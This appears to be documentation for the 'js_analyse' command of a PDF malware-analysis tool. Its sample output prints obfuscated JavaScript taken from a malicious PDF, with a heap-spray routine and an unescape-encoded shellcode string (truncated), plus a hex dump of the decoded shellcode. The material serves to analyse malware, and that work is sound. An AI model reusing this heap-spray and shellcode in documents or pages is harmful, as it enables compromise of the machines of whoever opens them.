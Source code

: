### js\_analyse ###
```
Usage: js_analyse variable var_name
Usage: js_analyse file file_name
Usage: js_analyse object object_id [version]

Analyses the Javascript code stored in the specified variable, file or object
```
This command perform some substitutions in the code in order to obtain the last stage of the Javascript code and search
for escaped bytes and shellcodes. It's not always possible to be successful with this analysis, so maybe a manual
approach with other commands will be necessary.
```
PPDF> js_analyse object 13

Javascript code:


var tX1PnUHy = new Array();
function lRUWC(E79yB, NPvAvQ){
  while (E79yB.length * 2 < NPvAvQ){
    E79yB += E79yB;
  }
  E79yB = E79yB.substring(0, NPvAvQ / 2);
  return E79yB;
}
function YVYohZTd(bBeUHg){
var NTLv7BP = 0x0c0c0c0c;
rpifVgf = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33" +
"%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64"+ 
"%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787"+ 
"%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3"+ 
"%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96" +
"%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66"+ 
"%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef"+ 
"%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64"+ 
"%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf..."

Unescaped bytes:
43 43 43 43 eb 0f 5b 33 c9 66 b9 80 01 80 33 ef   |CCCC..[3.f....3.|
43 e2 fa eb 05 e8 ec ff ff ff 7f 8b 4e df ef ef   |C..........N...|
ef 64 af e3 64 9f f3 42 64 9f e7 6e 03 ef eb ef   |.d..d..Bd..n....|
ef 64 03 b9 87 61 a1 e1 03 07 11 ef ef ef 66 aa   |.d...a........f.|
eb b9 87 77 11 65 e1 07 1f ef ef ef 66 aa e7 b9   |...w.e......f...|
87 ca 5f 10 2d 07 0d ef ef ef 66 aa e3 b9 87 00   |.._.-.....f.....|
21 0f 8f 07 3b ef ef ef 66 aa ff b9 87 2e 96 0a   |!...;...f.......|
57 07 29 ef ef ef 66 aa fb af 6f d7 2c 9a 15 66   |W.)...f...o.,..f|
aa f7 06 e8 ee ef ef b1 66 9a cb 64 aa eb 85 ee   |........f..d....|
b6 64 ba f7 b9 07 64 ef ef ef bf 87 d9 f5 c0 9f   |.d....d.........|
07 78 ef ef ef 66 aa f3 64 2a 6c 2f bf 66 aa cf   |.x...f..d*l/.f..|
87 10 ef ef ef bf 64 aa fb 85 ed b6 64 ba f7 07   |......d.....d...|
8e ef ef ef ec aa cf 28 ef b3 91 c1 8a 28 af eb   |.......(.....(..|
97 8a ef ef 10 9a cf 64 aa e3 85 ee b6 64 ba f7   |.......d.....d..|
07 af ef ef ef 85 e8 b7 ec aa cb dc 34 bc bc 10   |............4...|
9a cf bf bc 64 aa f3 85 ea b6 64 ba f7 07 cc ef   |....d.....d.....|
ef ef 85 ef 10 9a cf 64 aa e7 85 ed b6 64 ba f7   |.......d.....d..|
07 ff ef ef ef 85 10 64 aa ff 85 ee b6 64 ba f7   |.......d.....d..|
07 ef ef ef ef ae b4 bd ec 0e ec 0e ec 0e ec 0e   |................|
6c 03 eb b5 bc 64 35 0d 18 bd 10 0f ba 64 03 64   |l....d5......d.d|
92 e7 64 b2 e3 b9 64 9c d3 64 9b f1 97 ec 1c b9   |..d...d..d......|
64 99 cf ec 1c dc 26 a6 ae 42 ec 2c b9 dc 19 e0   |d.....&..B.,....|
51 ff d5 1d 9b e7 2e 21 e2 ec 1d af 04 1e d4 11   |Q......!........|
```